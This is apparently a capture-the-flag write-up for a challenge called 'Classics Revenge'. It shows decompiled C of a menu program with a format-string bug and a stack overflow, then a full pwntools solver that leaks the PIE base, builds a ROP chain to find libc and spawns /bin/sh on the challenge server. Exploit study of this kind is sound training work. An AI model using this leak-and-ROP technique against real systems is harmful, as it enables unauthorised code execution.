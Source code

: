 ## Classics Revenge
![challenge](../images/Classics_rev.png)

### Source Code
```c
void menu(void)

{
  puts("Hello pwner, i\'ll give you two choices . do your magic!.");
  puts("--> [1] shake your proteins.");
  puts("--> [2] drink it.");
  puts("--> [3] go to the gym.");
  printf("> ");
  return;
}
```
```c
void shake(void)

{
  undefined local_dc [4];
  char local_d8 [208];
  
  printf("How many spoons do you want to pour: ");
  __isoc99_scanf(&DAT_0010202e,local_dc);
  printf("Do You want to say something while we are preparing it ?: ");
  read(0,local_d8,199);
  printf(local_d8);
  puts("now go drink it.");
  return;
}
```
```c
void drink(void)

{
  undefined local_48 [64];
  
  puts("Now drink your proteins and give me your feedback\n");
  __isoc99_scanf(&DAT_001020bb,local_48);
  return;
}
```
```c
undefined8 main(void)

{
  char local_11 [5];
  uint local_c;
  
  setup();
  while( true ) {
    menu();
    read(0,local_11,4);
    local_c = atoi(local_11);
    if (local_c == 3) break;
    if (local_c < 4) {
      if (local_c == 1) {
        shake();
      }
      else if (local_c == 2) {
        drink();
      }
    }
  }
  puts("cy@");
  return 0;
}
```

### Overview
Before diving into the exploitation process let's check the security of the binary.<br>
![checksec](../images/Classics_rev_checksec.png)

We can see that both ```NX``` and ```PIE``` are enabled (if you don't know what PIE is you can check this https://ir0nstone.gitbook.io/notes/types/stack/pie). So in order to solve this we need to :
	<ul>
		<li><strong>Leak PIE base address</strong></li>
		<li><strong>Calculate libc.address</strong></li>
		<li><strong>Pop up a Shell</strong></li>
	</ul>

### Solver
```py
#!/usr/bin/env python3
from pwn import *

libc = ELF(b'libc6_2.27-3ubuntu1.5_amd64.so')
elf = context.binary = ELF('./main')
p = remote('20.216.40.184', 10010)

junk = b'\x90' * 72

p.sendline(b'1')
p.sendline(b'1')
p.recvuntil(b'Do You want to say something while we are preparing it ?: ')
p.sendline(b'%26$p')
leak = int(p.recvline().strip(), 16)
elf.address = leak - 0x2128
log.success(f'PIE base : {hex(elf.address)}')

rop = ROP(elf)
rop.call(elf.plt.puts, [elf.got.puts])
rop.call(elf.sym.main)
log.info(rop.dump())
payload = junk + rop.chain()
p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(payload)
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info(f'puts_got : {hex(leak)}')

libc.address = leak - libc.sym.puts
log.success(f"libc Address : {hex(libc.address)}")

pop_rdi_offset = 0x145b
POPRDI = elf.address + pop_rdi_offset
POPRAX = libc.address + 0x00000000001cf8a8
POPRSI = libc.address + 0x0000000000023a6a
POPRDX = libc.address + 0x0000000000001b96
SYSCALL = libc.address + 0x0000000000002743

pay = junk
pay += p64(POPRAX)
pay += p64(0x3b)
pay += p64(POPRDI)
pay += p64(next(libc.search(b'/bin/sh')))
pay += p64(POPRSI)
pay += p64(0)
pay += p64(POPRDX)
pay += p64(0)
pay += p64(SYSCALL)

p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(pay)

p.interactive()
p.close()
```
